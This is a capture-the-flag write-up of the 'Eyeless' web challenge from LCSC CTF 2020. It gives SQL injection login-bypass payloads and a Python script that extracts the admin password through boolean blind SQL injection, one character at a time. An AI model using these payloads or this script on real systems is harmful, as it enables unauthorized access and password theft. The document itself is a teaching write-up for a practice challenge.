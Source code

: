 ```yaml
---
layout: writeup
title:  "Eyeless"
date:   2020-04-04 17:10:05 +0200
event: "LCSC CTF 2020"
categories: [writeup]
image: img/website.png
ctf_categories: [web, sql]
author: "punshLineLama"
---
```


# Eyeless
## TL;DR
Blind SQL injection. Create oracle and brute-force the flag.

## Description
The challenge was in the web category, gave 150 points and had the following description:
```
Hack without seeing! Find us the admin password.

Connect here: http://jh2i.com:50011
```

When opening the url in the bowser, we can see the following:

![alt text](img/website.png)


After some exploration, it seems that the site is prone to SQL injection.
When providing it with the following credentials:
```
Username: admin ' or 1=1 #
Password: 123
```
it was possible to login as admin.

The output says:
```
Good job, but no flag here. :[
```

But we don't get the admin password.
As we do not get much feedback from the website, its not possible to dump the database and simply read out the password.

When posting the following credentials:
```
Username: admin ' and 0=1 #
Password: 123
```

the output looks differently:
```
YOU HACKER !!! HACKER !!! GO AWAY, HACKER!!!
```
This means that, if we provide a query that results in `True`, we can a different prompt, that if the query results in `False`.

## Exploitation

We can use this to guess one character of the flag after the other.
Thus, the `substring(s, pos, nb)` function is used, which returns the substring of *s*, beginning at index *pos*, ending at *pos+nb*.

Putting this in a query:
```
Username: admin' and substring(password, index, 1) == 'guessed_char' #
Password: 123
```
Now we can put everything into a script and brute-force all the characters:

```python

import requests
#start session
s = requests.Session()
#define our set of valid characters
dictionary = ['a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y', 'z', 'A','B','C','D','E','F','G','H','I','J','K','L','M','N','O','P','Q','R','S','T','U','V','W','X','Y','Z','0','1','2','3','4','5','6','7','8','9','0','_','{','}']
#The challenge url
URL = "http://jh2i.com:50011/"
#the final flag/admin password
passwd = []

def check():
        #Position of the character we want to provide to the oracle
        pos = 1
        while True:
                for x in dictionary:
                        print("Trying: "+x)
                        #Set the data to check if we guessed the character at position pos right.
                        data = {'username' : 'admin\' and substring(password,'+str(pos)+',1)=\''+str(x)+"\'#", 'password' : "123"}
                        # Post the data to the website.
                        r = s.post(url = URL, data = data)
                        #if we see the word "HACKER", we know that the guess character is not correct
                        if("HACKER" in r.text):
                                #print(r.text)
                                continue
                        #else, we know that we guessed it correctly, and add to our flag string
                        else:   
                                passwd.append(x)
                                #print password progress
                                print(''.join(passwd))
                                pos +=1
                                #if we have our last character, break the endless loop
                                if(str(x) == "}"):
                                        print(''.join(passwd))
                                        return
                                break

check()

```

Tdaa, and we get the flag: `lls{blind_sql_injection_cant_be_done_with_braille}`
